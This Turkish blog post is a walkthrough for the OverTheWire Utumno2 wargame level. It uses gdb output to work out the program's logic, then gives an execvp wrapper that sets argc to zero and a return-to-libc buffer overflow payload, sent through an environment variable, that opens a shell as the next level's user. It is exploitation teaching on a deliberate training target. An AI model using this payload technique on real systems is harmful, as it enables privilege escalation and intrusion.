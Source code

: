 ```yaml
---
layout: post
title: "Overthewire - Utumno2 Çözümü"
subtitle: "Karışık mevzular"
date: 2019-08-21 22:30:13 +0300
background: '/img/posts/bg.png'
---
```


# Overthewire Çözümleri - Utumno2

## İpucu
- execvp
- environment variables

## Çözüm

Programı çalıştırdığımızda "Aw.." çıktısı veriyor. Argümanla çalıştırınca da durum değişmiyor. **ltrace** ve **strace**'te bize işe yarar bir bilgi sağlamıyor. O zaman **gdb** ile devam edelim.

```
   0x08048451 <+6>:	cmp    DWORD PTR [ebp+0x8],0x0
   0x08048455 <+10>:	je     0x804846b <main+32>
   0x08048457 <+12>:	push   0x8048510
   0x0804845c <+17>:	call   0x8048310 <puts@plt>
   0x08048461 <+22>:	add    esp,0x4
   0x08048464 <+25>:	push   0x1
   0x08048466 <+27>:	call   0x8048320 <exit@plt>
```

"Aw.." çıktısını main fonksiyonunun hemen başındaki **puts** fonksiyonu mu veriyor kontrol edelim.

```
(gdb) x/s 0x8048510
0x8048510:	"Aw.."
```

Demek ki program öncelikle **ebp+0x8** adresindeki değer 0 mı diye bakıyor, değilse çıkıyor. Breakpoint koyarak bu adreste ne tutuluyormuş bir bakalım.

```
(gdb) break *0x08048451
Breakpoint 1 at 0x8048451: file utumno2.c, line 23.
(gdb) r
Starting program: /utumno/utumno2 

Breakpoint 1, main (argc=1, argv=0xffffd654) at utumno2.c:23
23	utumno2.c: No such file or directory.
(gdb) x/wx $ebp+0x8
0xffffd5c0:	0x00000001
```

1 değeri tutuluyor. Bu değer argüman sayımız olabilir. Bir argüman vererek sayıyı bir daha kontrol edelim.

```
(gdb) r asd
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno2 asd

Breakpoint 1, main (argc=2, argv=0xffffd654) at utumno2.c:23
23	in utumno2.c
(gdb) x/wx $ebp+0x8
0xffffd5c0:	0x00000002
```

Tahmin ettiğimiz gibi, burada argüman sayımız tutuluyormuş. Zaten genelde argüman sayısı **ebp+0x8**'de, argümanlar da program adından başlamak üzere **ebp+0xc** adresinde tutulur. Bundan sonra programın başında bu adresleri gördüğünüzde tahmininizi daha kolay yapabilirsiniz. Devam edelim.

Programın devam edebilmesi için argüman sayısını 0 yapmamız lazım. Şimdilik program akışını elle değiştirelim ilerleyen kısımlarda argüman sayısını hallederiz.

Prohgramın çıkış yaptığı satırdan itibaren breakpoint koyarak devam ediyoruz.

```
break *0x0804846b
r
set {int}0xffffd5c0=0
c
```

**ebp+0x8**'ın tuttuğu adresin değerini 0 yaparak program akışını değiştiriyoruz ve devam ediyoruz.

```
(gdb) ni
0x0804846e	29	in utumno2.c
(gdb) i r eax
eax            0xffffd654	-10668
(gdb) x/wx $eax
0xffffd654:	0xffffd7a9
(gdb) x/s 0xffffd7a9
0xffffd7a9:	"/utumno/utumno2"
```

Program öncelikle **eax**'e birinci argümanın adresini atıyor. Bu argümandan sonraki stringlere de bakalım.

```
(gdb) x/24s 0xffffd7a9
0xffffd7a9:	"/utumno/utumno2"
0xffffd7b9:	"asd"
0xffffd7bd:	"LC_ALL=en_US.UTF-8"
0xffffd7d0:	"LS_COLORS=rs=0:di=01;...
...
```

Gördüğümüz üzere argümanların sonrasında çevre değişkenleri geliyor. Program **eax**'in üzerine 0x28 ekleyerek devam edecek. **eax**'in tuttuğu adreste ve sonraki adreslerde neler var bakalım.

```
(gdb) x/24wx 0xffffd654
0xffffd654:	0xffffd7a9	0xffffd7b9	0x00000000	0xffffd7bd
0xffffd664:	0xffffd7d0	0xffffdd8c	0xffffdda7	0xffffdddc
0xffffd674:	0xffffddf1	0xffffde09	0xffffde18	0xffffde29
0xffffd684:	0xffffde3e	0xffffde52	0xffffde5f	0xffffde77
0xffffd694:	0xffffde80	0xffffde93	0xffffdeb5	0xffffdecc
0xffffd6a4:	0xffffdee3	0xffffdef6	0xffffdf01	0xffffdf18
(gdb) x/wx 0xffffd7a9
0xffffd7a9:	0x7574752f
(gdb) x/s 0xffffd7a9
0xffffd7a9:	"/utumno/utumno2"
(gdb) x/s 0xffffd7b9
0xffffd7b9:	"asd"
(gdb) x/s 0xffffd7bd
0xffffd7bd:	"LC_ALL=en_US.UTF-8"
```

Gördüğümüz gibi öncelikle program adı, sonra "asd" argümanı, sonra argümanların bittiğini göstermek için 0'lar, sonrasında da çevre değişkenleri. Bir sonrakiş adım **eax**'e 0x28 yani 40 eklemek olacak. Yani **eax**'in değeri **0xffffde18** olmalı.
Devam edip bakalım.

```
(gdb) ni
(gdb) ni
(gdb) i r eax
eax            0xffffde18	-8680
(gdb) x/s 0xffffde18
0xffffde18:	"LANG=en_US.UTF-8"
```

Bir adreste 4 byte tutuluyor ve **eax**'in üzerine 40 byte ekleniyor. Yani biz argüman sayısını 0 yaparsak argüman olarak stack'te sadece 0 olacak. Onun üzerine 40 / 4 = 10 eklenip 10. çevre değişkeni **strcpy** fonksiyonuna argüman olarak verilecek.

**strcpy** fonksiyonu **buffer overflow**'a açık bir fonksiyondur. Bundan ötürü kaç karakterden sonra **overflow** olacağını anlamak için **leave** satırına breakpoint koyup stack'imizin durumuna bakalım.

```
(gdb) x/12wx $esp
0xffffd5ac:	0x474e414c	0x5f6e653d	0x552e5355	0x382d4654
0xffffd5bc:	0xf7e2a200	0x00000000	0xffffd654	0xffffd660
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xf7e2a202 in __libc_start_main () from /lib32/libc.so.6
```

Gördüğümüz üzere program **strcpy** ile içine string kopyalanan adresin 4 DWORD sonrasına dönmek istedi fakat sonuna eklenmiş NULL byte yüzünden patladı.

Artık sömürü planımızı yapabiliriz. Yapmamız gerekenleri sıralayalım:

1. Programı **argc** değeri 0 olacak şekilde çalıştırmak.
2. Onuncu çevre değişkenine 16. karakterden itibaren dönmesini istediğimiz yeri vermek.

Birinci kısmı C ile çok kısa bir kod yazarak halledebiliriz.
C'de **execvp** fonksiyonu bir programı çalıştırmanızı sağlar. Normalde bu fonksiyon şöyle kullanılır.

```c
char *liste[] = { PROGRAM_ADI, ARG1, .. , NULL };
execvp("PROGRAM_YOLU", liste);
```

**execvp** fonksiyonunun 1. parametresi program yolu, ikinci parametresi ise programın argümanlarıdır. Normal şartlarda bu argümanların program adıyla başlayıp NULL ile son bulması gerekir. Biz sadece NULL içeren bir liste verip **argc** değerinin 0 olmasını sağlayacağız.

```sh
cd `mktemp -d`
vim code.c
```

```c
void main() {

    char *null[] = { 0 };

    execvp("/utumno/utumno2", null );

}
```

```sh
gcc -m32 code.c
```

İkinci kısmı halletmek için öncelikle programı döndüreceğimiz adresi bularak başlayalım. **/bin/sh** programını çalıştırmak istediğimizden öncelike **system** fonksiyonunun yerini, daha sonra da **system** fonksiyonunun çalıştıracağı **/bin/sh** stringinin bellekteki yerini bulmamız gerekiyor. 

**system** fonksiyonun yeri için **print &system** dememiz yetiyor.

```
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xf7e4c850 <system>
```

Şimdi de **/bin/sh** stringinin yerini bulmak için C library'sinin belleğin neresine yüklendiğine bakalım.

```
(gdb) info proc mappings
process 30783
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /utumno/utumno2
	 0x8049000  0x804a000     0x1000        0x0 /utumno/utumno2
	0xf7e10000 0xf7e12000     0x2000        0x0 
	0xf7e12000 0xf7fc3000   0x1b1000        0x0 /lib32/libc-2.24.so
```

0xf7e12000 adresini de bulduktan sonra **/lib32/libc-2.24.so** kütüphanesinin kaçıncı byte'ında **/bin/sh** stringinin olduğuna bakalım.

```sh
strings -a -t x /lib32/libc-2.24.so | grep "/bin/sh"

15ccc8
```

Demek ki **/bin/sh** belleğin **0xf7e12000 + 0x15ccc8 = 0xf7f6ecc8** adresinde bulunuyormuş. 

**system** fonksiyonunu kullanmamız için parametreleri şu şekilde stack'e yerleştirmemiz gerekiyor. 

```
Programın döneceği adresten itibaren:
<SYSTEM FONKSİIYONUNUN ADRESİ> <SYSTEM FONKSİYONUNUN DÖNECEĞİ ADRES> <SYSTEM FONKSİYONUNUN ÇALIŞTIRACAĞI KOMUT STRİNGİ>
```

Döneceği adresle ilgilenmediğimizden orayı rastgele verebiliriz.

Sonuç olarak şu şekilde zafiyeti sömürüyoruz:

```sh
env -i DDD=AA DBD=DSD CCC=AS DSCCC=dsfq DSC=SD ASD=sd QQQ=#@ DSDS=ds AFQFQ=sd EXP=`python -c "print 'AAAAAAAAAAAA' + '\x50\xc8\xe4\xf7\x41\x41\x41\x41\xc8\xec\xf6\xf7'"` ./a.out 
```

Çıktı:
```sh
$ whoami
utumno3
```

Burada da program yazmayı bilmenin önemini görmüş olduk.

## Yararlı kaynaklar

execvp - https://www.geeksforgeeks.org/exec-family-of-functions-in-c/

libc atağı - https://www.linkedin.com/pulse/exploiting-stack-buffer-overflow-return-to-libc-intro-hildebrand